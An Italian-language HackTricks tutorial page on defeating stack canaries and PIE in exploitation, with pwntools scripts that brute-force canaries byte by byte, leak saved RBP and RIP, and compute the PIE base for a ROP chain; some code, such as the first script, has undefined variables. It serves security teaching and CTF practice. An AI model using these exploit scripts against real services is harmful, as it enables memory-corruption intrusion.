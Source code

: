 <details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>


**Se ti trovi di fronte a un binario protetto da un canary e da PIE (Position Independent Executable), probabilmente devi trovare un modo per aggirarli.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Nota che **`checksec`** potrebbe non rilevare che un binario è protetto da un canary se è stato compilato staticamente e non è in grado di identificare la funzione.\
Tuttavia, puoi notarlo manualmente se trovi che un valore viene salvato nello stack all'inizio di una chiamata di funzione e questo valore viene controllato prima di uscire.
{% endhint %}

# Forzare il canary

Il modo migliore per aggirare un canary semplice è se il binario è un programma che **crea processi figlio ogni volta che viene stabilita una nuova connessione** con esso (servizio di rete), perché ogni volta che ti connetti ad esso **verrà utilizzato lo stesso canary**.

Quindi, il modo migliore per aggirare il canary è semplicemente **forzarlo carattere per carattere**, e puoi capire se il byte del canary indovinato è corretto controllando se il programma è andato in crash o continua il suo flusso regolare. In questo esempio la funzione **forza un canary di 8 byte (x64)** e distingue tra un byte indovinato corretto e un byte errato semplicemente **controllando** se viene inviata una **risposta** dal server (in altre situazioni potrebbe essere utilizzato un **try/except**):

## Esempio 1

Questo esempio è implementato per 64 bit ma potrebbe essere facilmente implementato per 32 bit.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Esempio 2

Questo è implementato per 32 bit, ma potrebbe essere facilmente modificato per 64 bit.\
Inoltre, si noti che per questo esempio il **programma si aspetta prima un byte per indicare la dimensione dell'input** e del payload.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Stampa il Canary

Un altro modo per bypassare il canary è **stamparlo**.\
Immagina una situazione in cui un **programma vulnerabile** a un overflow dello stack può eseguire una funzione **puts** che punta a una **parte** dell'overflow dello stack. L'attaccante sa che il **primo byte del canary è un byte nullo** (`\x00`) e il resto del canary sono byte **casuali**. Quindi, l'attaccante può creare un overflow che **sovrascrive lo stack fino al primo byte del canary**.\
Successivamente, l'attaccante **chiama la funzionalità puts** nel mezzo del payload che **stamperà tutto il canary** (eccetto il primo byte nullo).\
Con queste informazioni, l'attaccante può **creare e inviare un nuovo attacco** conoscendo il canary (nella stessa sessione del programma)

Ovviamente, questa tattica è molto **limitata** poiché l'attaccante deve essere in grado di **stampare** il **contenuto** del suo **payload** per **esfiltrare** il **canary** e quindi essere in grado di creare un nuovo payload (nella **stessa sessione del programma**) e **inviare** il **vero buffer overflow**.\
Esempio CTF: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Per bypassare il PIE è necessario **ottenere un indirizzo**. E se il binario non sta rivelando nessun indirizzo, il modo migliore per farlo è **forzare il RBP e il RIP salvati nello stack** nella funzione vulnerabile.\
Ad esempio, se un binario è protetto sia da un **canary** che da **PIE**, puoi iniziare a forzare il canary, quindi i **successivi** 8 byte (x64) saranno il **RBP** salvato e i **successivi** 8 byte saranno il **RIP** salvato.

Per forzare il RBP e il RIP dal binario, puoi capire che un byte indovinato è corretto se il programma produce un output o semplicemente non va in crash. La **stessa funzione** fornita per forzare il canary può essere utilizzata per forzare il RBP e il RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Ottenere l'indirizzo di base

L'ultima cosa di cui hai bisogno per sconfiggere il PIE è calcolare gli indirizzi utili dagli indirizzi trapelati: l'RBP e l'RIP.

Dall'RBP puoi calcolare dove stai scrivendo la tua shell nello stack. Questo può essere molto utile per sapere dove stai per scrivere la stringa _"/bin/sh\x00"_ all'interno dello stack. Per calcolare la distanza tra l'RBP trapelato e il tuo shellcode, puoi semplicemente mettere un **breakpoint dopo aver trapelato l'RBP** e controllare **dove si trova il tuo shellcode**, quindi puoi calcolare la distanza tra il shellcode e l'RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Dal **RIP** è possibile calcolare l'**indirizzo di base del file PIE**, che è ciò di cui avrai bisogno per creare una **catena ROP valida**.\
Per calcolare l'indirizzo di base, esegui semplicemente `objdump -d vunbinary` e controlla gli ultimi indirizzi disassemblati:

![](<../../.gitbook/assets/image (145).png>)

In questo esempio puoi vedere che è necessario solo **1 byte e mezzo** per individuare tutto il codice, quindi, l'indirizzo di base in questa situazione sarà il **RIP trapelato ma terminante con "000"**. Ad esempio, se hai trapelato _0x562002970**ecf**_, l'indirizzo di base sarà _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
